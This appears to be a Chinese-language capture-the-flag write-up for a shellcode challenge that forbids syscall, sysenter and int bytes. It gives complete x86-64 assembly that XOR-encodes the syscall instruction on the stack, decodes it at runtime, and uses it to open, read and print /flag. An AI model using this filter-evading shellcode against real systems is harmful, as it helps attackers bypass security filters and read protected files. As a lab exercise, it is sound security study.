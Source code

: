 # 挑战简介
```
此挑战要求您的 shellcode 不包含任何 `syscall`、'sysenter' 或 `int` 指令。系统调用
太危险了！此过滤器通过扫描 shellcode 中的以下字节序列来工作：0f05
（`syscall`）、0f34（`sysenter`）和 80cd（`int`）。避免这种情况的一种方法是让您的 shellcode 修改自身以
在运行时插入 `syscall` 指令
```

# 思路
在**系统调用**这一个明确指令被禁止的情况下，我们还有什么办法来执行这样一个汇编中不可缺少的指令呢  
**有的兄弟，有的**

---
(恐怖的是，这个题我有将近一天没弄懂：我要怎么样，才能不用syscall，来syscall，太抽象了)  
事后其实才领悟到，非常简单，写不出来，多半是因为我不愿意用gdb调试，一步一步调试后，理解了syscall执行原理，其实没什么难的  
**在x86下，syscall怎么运作的？**  

---
机器码状态下，其实就两个字节\x0f\x05,当程序检测到这两个连在一起的字节，则会自动判false  
不止x86如此，x64也如此，int 80什么的也不能有  
既然它只检查机器码，那么我们可以在机器码上，填写一个与syscall机器码异或的数，在程序运行的时候再将其异或回来，这样既可以做到执行了syscall，又骗过了检测，因为检测只检测机器码  

已经查看了程序权限，栈可执行，所以开篇便是直接请求sub栈，腾出操作空间，并且利用一个寄存器，来存储我们syscall执行地址
```
/* 申请一个内存区域用来写入和执行 */
    sub rsp, 128              /* 分配足够的栈空间 */
    mov r15, rsp              /* r15指向栈顶，我们将在这里放置syscall指令 */
/* 使用XOR创建syscall指令 (0x0f^0xff = 0xf0, 0x05^0xff = 0xfa) */
    mov byte ptr [r15], 0xf0     /* 0xf0 ^ 0xff = 0x0f */
    mov byte ptr [r15+1], 0xfa   /* 0xfa ^ 0xff = 0x05 */
    mov byte ptr [r15+2], 0xc3   /* ret指令 */
```
这时候利用解码，syscall就能用了  
```
/* 使用XOR解码syscall字节 */
    xor byte ptr [r15], 0xff
    xor byte ptr [r15+1], 0xff
```
然后就是一些常规操作，open，read，write  
```
/* 准备打开文件 */
    /* 创建文件路径字符串 */
    push 0x0                   /* null结束符 */
    mov rcx, 0x67616c662f     /* "/flag" */
    push rcx
    mov rdi, rsp               /* 文件路径参数 */
    
    /* 设置open系统调用 */
    mov eax, 2                 /* 系统调用号为 open() */
    xor esi, esi               /* O_RDONLY = 0 */
    xor edx, edx               /* 权限参数 (不需要) */
    
    /* 调用我们修改过的可执行内存区域 */
    call r15                   /*用的时候call一下即可*/
    
    /* 保存文件描述符 */
    mov r13, rax
    
    /* 分配缓冲区 */
    sub rsp, 128
    mov rsi, rsp               /* 缓冲区地址 */
    
    /* 设置read系统调用 */
    xor eax, eax               /* read系统调用号为0 */
    mov rdi, r13               /* 文件描述符 */
    mov edx, 100               /* 读取大小 */
    
    /* 调用syscall */
    call r15
    
    /* 保存读取的字节数 */
    mov r14, rax
    
    /* 设置write系统调用 */
    mov eax, 1                 /* write系统调用号为1 */
    mov edi, 1                 /* stdout */
    mov rdx, r14               /* 读取的字节数 */
    /* rsi已经设置为缓冲区地址 */
    
    /* 调用syscall */
    call r15
    
    /* 设置exit系统调用 */
    mov eax, 60                /* exit系统调用号 */
    xor edi, edi               /* 状态码0 */
    
    /* 调用syscall */
    call r15
```
